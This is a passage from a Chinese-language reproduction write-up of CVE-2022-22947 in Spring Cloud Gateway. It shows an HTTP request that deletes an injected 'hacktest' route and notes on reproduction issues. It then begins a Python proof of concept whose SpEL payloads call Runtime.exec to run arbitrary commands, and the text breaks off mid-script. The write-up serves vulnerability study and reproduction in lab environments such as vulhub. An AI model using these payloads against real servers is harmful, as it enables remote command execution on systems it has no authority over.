 刷新后，访问/actuator/gateway/routes/hacktest

![image-20220304151003267](TyporaPicture/image-20220304151003267-16463882245882.png)

删除恶意路由

~~~
DELETE /actuator/gateway/routes/hacktest HTTP/1.1
Host: 101.43.138.109:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
~~~

-----

复现过程中遇到一个问题，执行POST /actuator/gateway/refresh 时，服务器会卡住，spring服务端会报`Connection closed before received headers`错误。我刚开始以为是环境的问题，先后换了vulhub和vulfocus环境都是如此。后来我发现，dockker环境启动后，先不要立即创建路由，稍等5分钟再进行复现就不会出现这个问题。原因未知。



> 参考
>
> https://github.com/vulhub/vulhub/blob/master/spring/CVE-2022-22947/README.zh-cn.md
>
> https://y4er.com/post/cve-2022-22947-springcloud-gateway-spel-rce-echo-response/

-----

POC

~~~python
# -*- coding: utf-8 -*-
# @Time    : 2022/6/29 9:04
# @Author  : LuckyFuture
# @FileName: Spring-Cloud-Gateway-CVE-2022-22947.py
# @Software: PyCharm
# @Blog : https://luckyfuture.top

import re
import time

import requests

payload = '{"id":"%s","filters":[{"name":"AddResponseHeader","args":{"name":"Result","value":"#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\\"%s\\"}).getInputStream()))}"}}],"uri":"http://example.com"}'
payload2= '{"id":"%s","filters":[{"name":"RewritePath","args":{"replacement":"#{T(java.lang.Runtime).getRuntime().exec(\\"%s\\")}"}}]}'
headers1 = {
    'Accept-Encoding': 'gzip, deflate',
    'Accept': '*/*',
    'Accept-Language': 'en',
~~~